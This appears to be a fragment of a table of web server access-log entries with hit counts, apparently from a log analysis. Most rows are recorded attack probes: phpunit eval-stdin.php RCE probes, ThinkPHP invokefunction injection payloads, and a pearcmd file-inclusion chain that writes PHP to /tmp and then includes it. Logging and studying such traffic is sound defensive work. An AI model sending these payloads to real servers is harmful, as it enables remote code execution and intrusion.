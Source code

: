 |  40 |                     4 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  41 |                     4 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  42 |                     4 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  43 |                     4 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  44 |                     4 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  45 |                     4 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  46 |                     4 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  47 |                     4 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  48 |                     4 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  49 |                     4 | GET /GetBalance/footboo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |